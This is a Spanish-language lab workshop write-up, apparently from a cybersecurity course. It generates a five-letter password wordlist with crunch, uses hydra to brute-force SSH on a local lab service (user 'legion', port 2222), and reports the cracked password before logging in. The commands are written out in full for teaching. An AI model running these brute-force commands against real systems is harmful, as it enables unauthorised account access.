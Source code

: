 # HABILIDADES PRÁCTICAS EN EL CIBERESPACIO

**CC DIEGO EDISON CABUYA PADILLA - MY YERSON ALEJANDRO TORRES BUENO**

## TALLER – CREACIÓN DE DICCIONARIOS CON CRUNCH Y USO DE HYDRA

---

### 1. Creación del diccionario

- **Longitud**: 5 letras  
- **Primera letra**: `E` (mayúscula)  
- **Las otras cuatro letras**: letras minúsculas normales (`a–z`)

### Comando:

```bash
crunch 5 5 -t E@@@@ -o diccionario1.txt
```

### Desglose de parámetros:

| Parámetro           | Significado                                                                 |
|---------------------|------------------------------------------------------------------------------|
| `5 5`               | Longitud exacta: mínimo 5, máximo 5 caracteres                               |
| `-t E@@@@`          | Patrón (template): `E` fijo + 4 letras (`@` = letras minúsculas)             |
| `-o diccionario1.txt` | Archivo de salida donde se guardará el diccionario generado               |

![CRUNCH](CREACION_DICCIONARIO.png)
---


## 2. Ataque por fuerza bruta utilizando Hydra

### Comando:

```bash
hydra -l legion -P /home/kali/diccionario1.txt -t 10 -f -V ssh://localhost:2222
```

### Desglose de parámetros:

| Elemento                            | Función                                                                                       |
|-------------------------------------|-----------------------------------------------------------------------------------------------|
| `hydra`                             | Ejecuta la herramienta **Hydra**, utilizada para ataques de fuerza bruta                      |
| `-l legion`                         | Define el nombre de usuario objetivo del ataque (en este caso, `legion`)                     |
| `-P /home/kali/diccionario1.txt`    | Ruta al diccionario de contraseñas a probar (una por línea)                                  |
| `-t 10`                             | Número de hilos (threads) simultáneos; permite probar múltiples combinaciones a la vez       |
| `-f`                                | Finaliza el ataque tan pronto se encuentre una contraseña válida                             |
| `-V`                                | Modo verbose completo: muestra en pantalla cada intento de combinación                       |
| `ssh://localhost:2222`              | Protocolo (`ssh`), host (`localhost`) y puerto (`2222`) del servicio objetivo                |

### Resultado del ataque:

- **Usuario**: `legion`  
- **Password**: `Esdeg`

![HYDRA](HYDRA.png)
---

## 3. Ingreso por SSH y verificación

### Comando:

```bash
ssh legion@localhost -p 2222
```

### Desglose:

| Componente           | Descripción técnica                                                                           |
|----------------------|-----------------------------------------------------------------------------------------------|
| `ssh`                | Comando para iniciar una conexión remota segura mediante el protocolo SSH.                   |
| `legion@localhost`   | Indica el usuario objetivo (`legion`) y el host remoto (`localhost`).                        |
| `-p 2222`            | Especifica que la conexión se realizará por el puerto `2222` en lugar del 22 por defecto.    |

![SSH](SSH.png)
---

**Fin del taller.**
